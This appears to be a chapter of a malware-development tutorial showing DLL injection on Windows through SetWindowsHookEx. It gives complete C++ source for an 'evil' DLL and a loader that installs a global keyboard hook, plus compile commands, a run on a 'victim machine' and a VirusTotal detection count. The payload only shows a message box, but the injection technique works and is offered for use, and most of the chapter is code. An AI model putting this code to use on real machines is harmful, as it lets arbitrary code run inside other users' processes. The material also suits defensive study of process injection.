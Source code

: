 \newpage
\subsection{17. classic DLL injection via SetWindowsHookEx. Simple C++ malware.}

﷽

![dll injection](./images/25/2021-11-24_18-00.png){width="80%"}    

In this tutorial, I'll take a look at the DLL injection by using the `SetWindowsHookEx` method.    

### SetWindowsHookEx

Let's go to look an example which demonstrates this technique. The `SetWindowsHookEx` installs a hook routine into the hook chain, which is then invoked whenever certain events are triggered. Let's take a look at the function syntax:
```cpp
HHOOK SetWindowsHookExA(
  [in] int       idHook,
  [in] HOOKPROC  lpfn,
  [in] HINSTANCE hmod,
  [in] DWORD     dwThreadId
);
```

The most important param here is `idHook`. The type of hook to be installed, which can hold one of the following values:

    WH_CALLWNDPROC
    WH_CALLWNDPROCRET
    WH_CBT
    WH_DEBUG
    WH_FOREGROUNDIDLE
    WH_GETMESSAGE
    WH_JOURNALPLAYBACK
    WH_JOURNALRECORD
    WH_KEYBOARD
    WH_KEYBOARD_LL
    WH_MOUSE
    WH_MOUSE_LL
    WH_MSGFILTER
    WH_SHELL
    WH_SYSMSGFILTER

In our case, I'll be hooking the `WH_KEYBOARD` type of event, which will allow us to monitor keystroke messages.

### malicious DLL

Let's go to prepare our malicious DLL. For simplicity, we create DLL which just pop-up a message box:    

```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/11/25/malware-injection-7.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}

extern "C" __declspec(dllexport) int Meow() {
  MessageBox(
    NULL,
    "Meow from evil.dll!",
    "=^..^=",
    MB_OK
  );
  return 0;
}

```

As you can see we have a pretty simple DLL. The `DllMain()` function is called when the DLL is loaded into the process's address space. There's also a function named `Meow()`, which is an exported function and which is just pop-up message *"Meow from evil.dll!"*.   

### example. simple malware.

The next thing that we need to do is create our malware. Let's go to look the source code:
```cpp
/*
hack.cpp
DLL inject via SetWindowsHookEx
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/11/25/malware-injection-7.html
*/
#include <windows.h>
#include <cstdio>

typedef int (__cdecl *MeowProc)();

int main(void) {
  HINSTANCE meowDll;
  MeowProc meowFunc;
  // load evil DLL
  meowDll = LoadLibrary(TEXT("evil.dll"));

  // get the address of exported function from evil DLL
  meowFunc = (MeowProc) GetProcAddress(meowDll, "Meow");

  // install the hook - using the WH_KEYBOARD action
  HHOOK hook = SetWindowsHookEx(WH_KEYBOARD, 
  (HOOKPROC)meowFunc, meowDll, 0);
  Sleep(5*1000);
  UnhookWindowsHookEx(hook);

  return 0;
}
```

It's also pretty simple. First of all we call `LoadLibrary` to load our malicious DLL:    

![dll injection 2](./images/25/2021-11-25_15-35.png){width="80%"}    

Then, we are calling the `GetProcAddress` to get the address of the exported function `Meow`:    

![dll injection 3](./images/25/2021-11-25_15-36.png){width="80%"}    

After that, the our malware calls the most important function, the `SetWindowsHookEx`. The parameters passed to that function determine what the function will actually do:   

![dll injection 4](./images/25/2021-11-25_15-40.png){width="80%"}    

As you can see, whenever the keyboard event will occur, our function will be called. And we are passing the address of the our exported function - `meowFunc` parameter. Also we are passing the handle to our DLL - `meowDll` parameter. The last parameter `0` specifies that we want all programs to be hooked, not just a specific one, so it's a global hook.    

Then we call `Sleep`:

![dll injection 5](./images/25/2021-11-25_15-44.png){width="80%"}    

for demonstrate that our hook works.

Then we call the `UnhookWindowsHookEx()` function to unhook the previously hooked `WH_KEYBOARD` action:

![dll injection 6](./images/25/2021-11-25_15-46.png){width="80%"}    

So finally after we understood entire code of the malware, we can test it.    
Let's go to compile malicious DLL firstly:
```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.cpp -fpermissive
```

![dll injection 7](./images/25/2021-11-25_15-48.png){width="80%"}    

compile malware code:
```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive
```

![dll injection 8](./images/25/2021-11-25_15-50.png){width="80%"}    

Then, see everything in action! Start our `hack.exe` on the victim machine (Windows 7 x64):
```cmd
.\hack.exe
```

![dll injection 9](./images/25/2021-11-25_15-54.png){width="80%"}    

We can see that everything was completed successfully and at this point whenever we start a program, pop-up our message only when keyboard key is pressed.   

### Conclusion

In this section, I've demonstrate how we can use the `SetWindowsHookEx` function to inject the DLL into the process's address space and execute arbitrary code inside the process's address space.    

There is a caveat. This technique is not working in my Windows 10 x64 machine. I think the reason is this: CIG block this technique. Windows 10 x64 have two important things:

- **CFG (Control Flow Guard)** – prevent indirect calls to non-approved
addresses
- **CIG (Code Integrity Guard)** - only allow modules signed by
Microsoft/Microsoft Store/WHQL to be loaded into the process memory.   

In [this](https://i.blackhat.com/USA-19/Thursday/us-19-Kotler-Process-Injection-Techniques-Gotta-Catch-Them-All.pdf) presentation from BlackHat USA 2019, the authors explain that CIG block this technique.    

Let's go to upload our `hack.exe` to virustotal:

![dll injection 10](./images/25/2021-11-26_03-02.png){width="80%"}    

[https://www.virustotal.com/gui/file/273e191999eb6a4bc010eeaf9c4e196d917509250f87a121fa1cfeded41b7921](https://www.virustotal.com/gui/file/273e191999eb6a4bc010eeaf9c4e196d917509250f87a121fa1cfeded41b7921)    

**So, 5 of 67 AV engines detect our file as malicious.**    

[BlackHat USA 2019 process injection techniques Gotta Catch Them All](https://i.blackhat.com/USA-19/Thursday/us-19-Kotler-Process-Injection-Techniques-Gotta-Catch-Them-All.pdf)     
[SetWindowsHookEx](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-setwindowshookexa)    
[Using Hooks MSDN](https://docs.microsoft.com/en-us/windows/win32/winmsg/using-hooks)    
[Exporting from a DLL](https://docs.microsoft.com/en-us/cpp/build/exporting-from-a-dll-using-declspec-dllexport?view=msvc-170)        
[Source code in Github](https://github.com/cocomelonc/2021-11-24-malware-injection-7)    
